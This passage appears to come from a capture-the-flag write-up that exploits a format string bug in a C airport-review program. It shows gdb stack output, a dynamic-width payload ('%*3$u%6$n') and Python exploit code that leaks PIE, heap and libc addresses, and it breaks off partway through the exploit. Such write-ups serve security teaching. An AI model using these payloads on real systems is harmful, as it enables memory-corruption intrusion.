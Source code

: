 This will open `/dev/null` and then print the review to it. `writeToFile` contains a format string vulnerability, since it just calls

```c
fprintf(file, reviews[i]->airportCode);
```

We won't be able to see the output of it, since it's written to `/dev/null`, but we can still exploit it. `airportCode` can only contain 10 chars, so it will be a bit of a hassle to do something useful with it.

With gdb we can find the possible parameters, that can be used

```
1 : 0xffffd3a8│+0x0000: 0x0000000c
2 : 0xffffd3ac│+0x0004: 0x5655a2d0  →  0xfbad2c84
3 : 0xffffd3b0│+0x0008: 0x565571d1  →  "/dev/null"
4 : 0xffffd3b4│+0x000c: 0x565571cf  →  0x642f0077 ("w"?)
5 : 0xffffd3b8│+0x0010: 0x00000001
6 : 0xffffd3bc│+0x0014: 0x5655a1c0  →  "AAAAAAAAAAAAAAAAAAAAA[...]"
7 : 0xffffd3c0│+0x0018: 0xffffd4e4  →  0xffffd64a  
8 : 0xffffd3c4│+0x001c: 0x56558f80  →  0x00003e88
9 : 0xffffd3c8│+0x0020: 0xffffd3f8 
...
```

Parameter 6 will contain a pointer to our `comment` chunk on the heap. Since we first need some leaks, we can use this to write into the `comment` field to get some pointers.

Though as already mentioned, the possible format string is only 10 chars and the string is on the heap, so we cannot reuse addresses from our input.

But we can use a neat little trick using dynamic width parameters for `printf`

```
%*3$u%6$n
```

With `*3` we specify, that the width for the string should come from the third format string parameter. This would write a string with `0x565571d1` whitespaces. `%6$n` will then write the count of written characters to the address at parameter 6, which is our comment chunk.

This will effectively write `0x565571d1` into our comment field, which we then can read via `View all airport reviews`.

We'll use this, to leak an ELF, heap and libc address.

```python
def leak(offset):
    payload = "%*{0}$u%6$n".format(offset)
    edit(1, payload, 9, "A"*8)
    writetofile()
    LEAK = u32(view().split("Comment: ")[1][:4].ljust(4, "\x00"))
    return LEAK

def exploit(r):
    r.recvuntil("choice: ")

    # create initial review
    add("AAAA", 9, "AAAA")

    # leak ELF / heap and libc address
    PIELEAK = leak(3)
    HEAPLEAK = leak(6)
    LIBCLEAK = 0x100000000 - leak(13)
```
